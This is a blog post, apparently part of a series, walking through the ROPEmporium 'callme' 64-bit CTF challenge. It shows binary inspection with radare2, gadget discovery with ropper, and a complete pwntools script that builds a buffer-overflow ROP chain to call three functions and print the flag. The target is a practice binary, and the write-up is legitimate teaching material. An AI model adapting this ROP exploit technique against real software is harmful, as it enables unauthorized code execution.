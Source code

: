 ```yaml
---
title: 'ROPEmporium: 2-Callme (64-bit)'
date: 2019-08-17
thumbnailImagePosition: left
thumbnailImage: /img/posts/2019/08/ropemporium-2-callme/pexels-photo.jpg
coverImage: /img/posts/2019/08/ropemporium-2-callme/pexels-photo.jpg
coversize: partial
coverMeta: out
metaAlignment: center
clearReading: true
categories:
- Exploit-Development
- ROPEmporium
- CTF
tags:
- ctf
- dev
- getting-started
- ropemporium
- rop
- exploit
showTags: false
showPagination: true
showSocial: true
showDate: true
comments: false
summary: "Continuing the ROP Series with Callme, this time going through Calling conventions"
---
```


Now if you haven't caught on, this is a series! I went through a bit about calling parameters in the previous post [1-Split](/2019/08/10/ropemporium-1-split-64-bit/), and in this post we'll dig into it a bit more and make 3 consecutive calls with 3 specific parameters.

## Description

> You must call **callme\_one(), callme\_two()** and **callme\_three()** in that order, each with the arguments 1,2,3 e.g. **callme\_one(1,2,3)** to print the flag. The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme\_ functions in the above order and with the correct arguments.

## Setup

As usual lets download the correct archive and unzip it.
```
root@linux:~/split# wget https://ropemporium.com/binary/callme.zip
root@linux:~/split# unzip callme.zip
root@linux:~/split# ls
callme callme.zip encrypted_flag.txt key1.dat key2.dat libcallme.so
root@linux:~/split# file callme
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=00e98079187631025159f040444e55bed3edcf1c, not stripped
root@linux:~/split# file libcallme.so
libcallme.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=4596d32e684288a4c3c8d3daf98fe6f42ffc4454, not stripped
```

Still not stripped, but we do get a bit more files, key1.dat, key2.dat, encrypted\_flag.txt and libcallme.so. Again lets see what the callme binary wants for input data by executing it.

```
callme by ROP Emporium
64bits

Hope you read the instructions...
> inputdata

Exiting
```

So according the instructions, to print the flag the ROP chain need to make the following function calls in the specific order.

```
+-------------------------------------------------------------+
| callme_one(1,2,3) + callme_two(1,2,3) + callme_three(1,2,3) |
+-------------------------------------------------------------+
```
So again, lets create the exploit template with pwntools, and add the 40-byte junk and payload definition. The 40-byte junk will be a constant in this series and for the ROPEmporium challenges. Although if you feel uncertain on how you identify the length of the buffer overflow, go back to [0-ret2win](/2019/08/08/ropemporium-0-ret2win/) as it will be the same procedure for this as well.

## Radare2 Reversing

Now the description of the challenge claims that there should be little to no reversing at all, but for good practice lets have a look anyway.

```
root@Valkyrie:~/Documents/courses/ropemporium/2-callme# rabin2 -I callme
arch x86
baddr 0x400000
binsz 11375
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath ./
sanitiz false
static false
stripped false
subsys linux
va true
```

Opening the binary up in radare2 and looking for the callme functions confirms that they are there, and with the symbols intact.

{{< image classes="fancybox center" src="/img/posts/2019/08/ropemporium-2-callme/image-14.png" title="Radare2 Reversing" >}}

That means we can use the pwntools symbols trick and in the exploit use _`exe.symbols.callme_one`_ instead of direct memory addresses, making it a bit more readable.

### Finding gadgets

Going back onto the precious blogpost where we exploited _1-split_ and the _x64\_cheatsheet,_ we know that we need to put:

- 0x1 in the RDI register (First parameter)
- 0x2 in the RSI register (Second parameter)
- 0x3 in the RDX register (Third Parameter)

So the first thing is to use ropper to list all the _pop_ gadgets, as the call _pop_ is used to put the address on top of the stack into the destination register

{{< image classes="fancybox center" src="/img/posts/2019/08/ropemporium-2-callme/image-15.png" title="Finding ROP Gadgets" >}}

Conveniently on the address `0x00401ab0` there is a `pop rdi; pop rsi; pop rdx; ret;`.

## Final Exploit

```python
#Author: Christoffer.Claesson@Securitybits.io
#Blog: https://blog.securitybits.io/2019/08/17/ropemporium-2-callme-64-bit/
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('callme')

host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())

#Additionally, %rdi, %rsi, %rdx, %rcx, %r8, and %r9 are used to pass the first six integer or pointer parameters to called functions
#call callme_one(1,2,3)
#call callme_two(1,2,3)
#call callme_three(1,2,3)

junk = "A"*40
pop_rdi_rsi_rdx = p64(0x00401ab0) #0x00401ab0: pop rdi; pop rsi; pop rdx; ret;
one = p64(0x1)
two = p64(0x2)
three = p64(0x3)
parameters = pop_rdi_rsi_rdx + one + two + three

# -- Exploit goes here --
payload = ""
payload += junk
payload += parameters + p64(exe.symbols.callme_one)
payload += parameters + p64(exe.symbols.callme_two)
payload += parameters + p64(exe.symbols.callme_three)

io = start()
io.recvuntil('> ')
io.sendline(payload)
log.success('Flag: ' + io.recv(512))
```

{{< image classes="fancybox center" src="/img/posts/2019/08/ropemporium-2-callme/image-16.png" title="Flag" >}}

GitHub: [https://github.com/Securitybits-io/ROPEmporium](https://github.com/Securitybits-io/ROPEmporium)
